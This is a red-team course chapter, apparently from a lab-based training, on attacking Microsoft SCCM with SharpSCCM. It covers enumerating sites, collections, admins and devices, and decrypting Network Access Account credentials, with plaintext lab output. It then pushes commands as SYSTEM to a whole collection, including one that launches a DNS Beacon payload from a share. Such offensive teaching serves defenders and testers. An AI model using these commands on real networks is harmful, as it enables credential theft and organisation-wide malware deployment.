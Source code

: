 # Configuration Manager

Microsoft Configuration Manager (often shortened to ConfigMgr or MCM) started its life as "Systems Management Server" (SMS).  It became "Systems Center Configuration Manager" (SCCM), then "Endpoint Configuration Manager" (MECM), and is now under Microsoft's Intune brand umbrella.  Most still refer to it as SCCM because Microsoft change the name of their products more frequently than I change my socks. Fundamentally, SCCM's role is to help with system management tasks such as application & software deployments, updates and compliance configuration & reporting.

The complexity of a deployment can vary from a single site, to a sprawling hierarchy of multiple primary and secondary sites.  The ability to connect multiple sites helps with scalability, particularly when dealing with different geographic locations.  The examples below are taken directly from the Microsoft documentation.

SCCM is an attractive target for attackers because given enough privilege, it can be used to push malicious scripts and applications to devices that it manages.  The deployment in the RTO lab is only setup as a single site in order to demonstrate basic abuse primitives against Configuration Manager.  There are further resources out there, including this post by Chris Thompson that describes how a compromised primary site also compromises the entire hierarchy.

# Enumeration 

The first step when attacking SCCM is to get a feel for the deployment topology, which devices are being managed, and who the administrative users are.  Throughout this chapter, we'll use the SharpSCCM tool.  Given a foothold on a machine, we can begin by finding the management point and site code that it is linked to.  This does not require any special privileges in the domain, in SCCM or on the endpoint.

    run hostname 
    getuid
    execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner

This enumeration uses WMI under the hood, which could be done manually.

    powershell Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl

We can also check the DACL on the CN=System Management container in AD for machines that have Full Control over it (as this a pre-requisite of SCCM setup in a domain).

    execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get site-info -d cyberbotic.io --no-banner

Enumerating users, groups, computers, collections, and administrators, etc, does require some level of privilege in SCCM and cannot be done as a standard domain user.  SCCM employs an RBAC security model - the lowest role is "Read-Only Analyst" and the highest is "Full Administrator".  Lots of other roles exist such as "Asset Manager", "Infrastructure Administrator", and "Software Update Manager".  A description of each can be found here.  Furthermore, the "scope" of these roles can be restricted to individual collections as needed by the administrative user.  For example, computers from the DEV and CYBER domains have been grouped into their own collections.

This can really impact your view (as an attacker) of how SCCM is configured.  For example, if we enumerate all the collections as bfarmer, we can see that both DEV and CYBER exist as well as their member counts.

    getuid
    execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner

However, if we run the same enumeration as jking, a member of DEV\Support Engineers, we only see the DEV collection.

    make_token DEV\jking Qwerty123
    execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner

This is because even though DEV\Developers are only "Read-Only Analysts", the role is scoped to both collections.  DEV\Support Engineers are "Full Administrators" over the DEV collection but they have no roles that are scoped to the CYBER collection.
So when enumerating SCCM, you may only see a small slither based on the user you're running the enumeration as.
Administrative users can be found using get class-instances SMS_Admin.

    execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get class-instances SMS_Admin --no-banner

This allows us to see what is reflected in the Configuration Manger GUI above.  Members of these collections can be found using get collection-members -n <collection-name>.

    execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collection-members -n DEV --no-banner

Even more information on each device can be obtained using get devices.  There are some good ways to filter the output, such as searching by device name, -n, and only displaying the properties specified by -p.

    execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner

You can also use SCCM as a form of user hunting, since it records the last user to login to each managed computer.  The -u parameter will only return devices where the given user was the last to login.

  execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner

However, take these results with a grain of salt because this information is only updated in SCCM every 7 days by default.

# Network Access Account Credentials

In a Windows environment, the majority of computers will be domain-joined and will therefore authenticate to SCCM Software Distribution Points (SDPs) (basically just SMB shares) using their own machine account credentials.  However, some computers may not be domain-joined.  Network Access Account credentials (NAAs) are domain credentials intended to be used by these machines to access the SDPs over the network.  They are passed to the machines as part of the SCCM machine policies, which are then encrypted using DPAPI and stored locally.  If they are present, privileged users can retrieve these credential blobs via WMI or directly from disk and decrypt them to recover plaintext credentials.
Use local naa with -m wmi or -m disk.

    getuid
    execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner

    [+] Connecting to \\127.0.0.1\root\ccm\policy\Machine\ActualConfig
    [+] Retrieving network access account blobs via WMI
    [+] Retrieving task sequence blobs via WMI
    [+] Retrieving collection variable blobs via WMI
    
    [...snip...]
    
    [+] Decrypting network access account credentials
    
        NetworkAccessUsername: cyberbotic.io\sccm_svc
        NetworkAccessPassword: Cyberb0tic
      
These credentials should only have read access to the SDP, but are often times over privileged (sometimes even domain/enterprise admins).
    
    make_token cyberbotic.io\sccm_svc Cyberb0tic

    ls \\dc-1.cyberbotic.io\c$

An alternate approach is to request a copy of the policy directly from SCCM using get naa.  This also requires local admin on the local machine to obtain a copy of its SMS Signing and SMS Encryption certificates.

# Lateral Movement 

With Full or Application Administrator privileges over a device or a collection, we can deploy scripts or applications to aid in lateral movement.  To execute a command on every device in the DEV collection, we could do exec -n DEV -p <path>.

    execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner

SharpSCCM attempts to hide the application (i.e. the command we're executing) from the GUI, but the deployment is still visible until it completes.

By default, the above will execute Notepad as the user currently logged into each machine.  If a user is not logged in, then the command won't execute.  We can force it to execute as SYSTEM using the -s parameter, and this will execute on every machine regardless of whether a user is currently logged in or not.  As with the GPO Abuse chapter, we can upload and execute a DNS Beacon payload.

    execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner






























































